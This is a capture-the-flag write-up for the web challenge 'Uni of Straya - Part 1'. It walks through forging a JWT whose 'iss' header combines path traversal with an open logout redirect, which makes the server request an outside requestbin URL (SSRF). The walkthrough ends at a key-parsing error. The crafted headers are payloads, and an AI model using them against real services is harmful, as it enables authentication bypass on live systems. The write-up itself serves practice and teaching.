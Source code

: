 <p align="center">
  <img width="600" src="Challenge.PNG" alt="Challenge Description">
</p>
<h1 align="center" style="margin-top: 0px;">Uni of Straya - Part 1</h1>

Daaamn, that description is long, looks pretty scary. Luckily for this first part we just need to focus on that first point.

**Bypass authorization and view the admin console located at ``/admin``**

Alright, so here's what the main page looks like.

![image](https://user-images.githubusercontent.com/104875856/192207126-5cfea71c-55c4-4759-921e-14ebd3321df5.png)

Registering and logging in we get a similar looking page with different prompts. All of which don't give any useful information. 

![image](https://user-images.githubusercontent.com/104875856/192207247-d59e95db-851d-44fd-8f84-e6ae48680ced.png)

Trying to go to `/admin` we get logged out and redirected to the main screen.

I wanted to see what kind of authentication was being used and looking in our web storage we've got a JWT token stored in local storage, there's also a field for userId but changing this does nothing.

At this point I wanted to look into what javascript was being run on each page, since I noticed a `main.js` and `dashboard.js` in the source of the two pages we've been to so far. Every `.js` and `.html` file I came across I saved locally and opened up in Visual Studio Code, that way I can easily navigate and see what's going on.

Once I had all that set out I wanted to take a deeper look into what happens when we request `/admin` since I noticed when we try load the page sometimes the webpage loads for a second and then we get redirected.

Loading up burpsuite and requesting the page serves us html, if we render that it looks like this.

![image](https://user-images.githubusercontent.com/104875856/192208545-30bd1a2d-a8c3-406a-b639-bd0c1c6a6193.png)

That page refers to an `admin.js` file, so I saved the source for that file too.

Now that I had the important `.html` and `.js` files I spent a long time analysing them. A quick realisation was that there were heaps of calls to an API. I tested this API a lot using https://reqbin.com/, definitely my favourite tool for this kind of stuff. I quickly realised that our authorisation was very limited, the JWT token of a standard user only allows us to access a few functionalities. On the topic of our JWT token, here's what it looks like decoded using https://jwt.io/ (another great tool).

![image](https://user-images.githubusercontent.com/104875856/192209919-67b90291-57fd-4648-aef6-a804f22150cc.png)

Notice anything interesting? For me, that directory looked super interesting. As soon as I saw that I thought I might be able to get SSRF (Server-Side Request Forgery). SSRF is where you get the server itself to make a request to whereever you want. My idea was that maybe the server has to follow that directory when it goes to sign our JWT for authentication, if we can change that then maybe we can get it to send a request to somewhere other than `/api/auth/pub-key`.

To test this I crafted a new JWT, keeping everything else the same but changing the header to this:

```json
{
  "alg": "RS256",
  "iss": "https://requestbin.io/z39ug0z3",
  "typ": "JWT"
}
```
https://requestbin.io is a great website for grabbing http callbacks, you can just generate and link and it will log any request made to it.

Sending a request to an API endpoint we don't have access to gives us this response:

```json
{
    "result": "M8 you broke something: ISS needs to match ^/api/auth/pub-key!",
    "status": "error"
}
```

Hm, okay, that regex seems pretty easy to bypass. We could use something like ``/api/auth/pub-key/../../../../`` to get back to the base url. The only problem now is that we can't pass in a straight url since it will try to use it as a directory, it's not just slapped into a request, in fact I made this mistake in my last payload as well, that would've never worked because the original payload had a relative path.

As soon as I ran into this issue I went back to the source code I had, almost immediately I noticed this in `admin.js`!!!

```js
setInterval(() => {
        authAjax({
            url: "/api/auth/isstaff",
            type: "GET",
            success: (data) => {
                if (data.status === "error") {
                    window.location = "/api/auth/logout?redirect=/logout";
                }
            },
            error: errorCallback
        });
    }, 60000);
```

Do you see that? There's an api endpoint that redirects the user to a url. That's how it was kicking us out of the page, that also explains why sometimes it wouldn't kick us out immediately, it had to wait for the api.

Anyway, this is huge! If we can make the server go to this endpoint we can control where it gets redirected, aka **SSRF**!!!. Let's make the payload!

Alright so we know we can get to the base url using directory traversal ``/api/auth/pub-key/../../../../``, now we just need to go to the logout endpoint. That looks like this,

``/api/auth/pub-key/../../../../api/auth/logout?redirect=EVIL``

Let's put our requestbin url in our EVIL parameter and throw it in a JWT. Our JWT header now looks like this.

```json
{
  "alg": "RS256",
  "iss": "/api/auth/pub-key/../../../../api/auth/logout?redirect=https://requestbin.io/z39ug0z3",
  "typ": "JWT"
}
```

Sending that through...

```json
{
    "result": "M8 you broke something: ('Could not deserialize key data. The data may be in an incorrect format, it may be encrypted with an unsupported algorithm, or it may be an unsupported key type (e.g. EC curves with explicit parameters).', [_OpenSSLErrorWithText(code=75497580, lib=9, reason=108, reason_text=b'error:0480006C:PEM routines::no start line')])",
    "status": "error"
}
```

NO WAY

![image](https://user-images.githubusercontent.com/104875856/192215883-ad5f5900-69e7-4b26-be1a-5fef57785e68.png)






